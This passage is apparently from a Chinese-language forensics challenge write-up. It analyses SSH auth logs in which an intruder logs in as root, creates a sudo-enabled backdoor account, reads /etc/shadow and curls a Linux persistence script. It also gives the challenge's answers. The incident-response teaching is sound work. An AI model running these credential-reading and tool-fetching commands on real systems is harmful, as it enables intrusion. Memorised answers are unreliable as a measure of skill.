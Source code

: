 日志时间记录段为 06:32:44 - 06:37:24，共 280 秒：

```
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
...

Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

wtmp 显示会话在 06:32:45 开启，即会话开始到结束时间段为 06:32:45 - 06:37:24，共 279 秒：

```
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
```

`279`

## Task 8

The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

***

auth.log 文件中记录了后门账户 cyberjunkie 的操作：

```
└─# grep "cyberjunkie" auth.log
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: pam_unix(sshd:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
Mar  6 06:37:34 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
```

`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
